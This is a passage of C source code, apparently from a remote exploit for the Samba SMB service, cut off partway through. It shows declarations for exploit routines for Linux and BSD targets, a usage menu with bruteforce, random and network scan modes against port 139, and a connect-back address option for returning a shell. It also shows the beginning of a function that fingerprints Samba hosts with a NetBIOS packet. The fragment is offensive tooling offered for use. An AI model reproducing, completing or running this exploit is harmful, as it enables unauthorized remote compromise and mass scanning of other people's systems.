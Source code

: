     };

    void shell();
    void usage();
    void handler();

    int is_samba(char *ip, unsigned long time_out);
    int Connect(int fd, char *ip, unsigned int port, unsigned int time_out);
    int read_timer(int fd, unsigned int time_out);
    int write_timer(int fd, unsigned int time_out);
    int start_session(int sock);
    int exploit_normal(int sock, unsigned long ret, char *shellcode);
    int exploit_openbsd32(int sock, unsigned long ret, char *shellcode);

    void usage(char *prog)
    {
            fprintf(stderr, "Usage: %s [-bBcCdfprsStv] [host]\n\n"
                            "-b <platform>   bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)\n"
                            "-B <step>       bruteforce steps (default = 300)\n"
                            "-c <ip address> connectback ip address\n"
                            "-C <max childs> max childs for scan/bruteforce mode (default = 40)\n"
                            "-d <delay>      bruteforce/scanmode delay in micro seconds (default = 100000)\n"
                            "-f              force\n"
                            "-p <port>       port to attack (default = 139)\n"
                            "-r <ret>        return address\n"
                            "-s              scan mode (random)\n"
                            "-S <network>    scan mode\n"
                            "-t <type>       presets (0 for a list)\n"
                            "-v              verbose mode\n\n", prog);

            exit(1);
    }

    int is_samba(char *ip, unsigned long time_out)
    {
            char
            nbtname[]= /* netbios name packet */
            {
                    0x80,0xf0,0x00,0x10,0x00,0x01,0x00,0x00,
                    0x00,0x00,0x00,0x00,0x20,0x43,0x4b,0x41,
                    0x41,0x41,0x41,0x41,0x41,0x41,0x41,0x41,
                    0x41,0x41,0x41,0x41,0x41,0x41,0x41,0x41,
                    0x41,0x41,0x41,0x41,0x41,0x41,0x41,0x41,
                    0x41,0x41,0x41,0x41,0x41,0x00,0x00,0x21,
                    0x00,0x01
            };

            unsigned char recv_buf[1024];
            unsigned char *ptr;

            int i = 0;
            int s = 0;

            unsigned int total = 0;
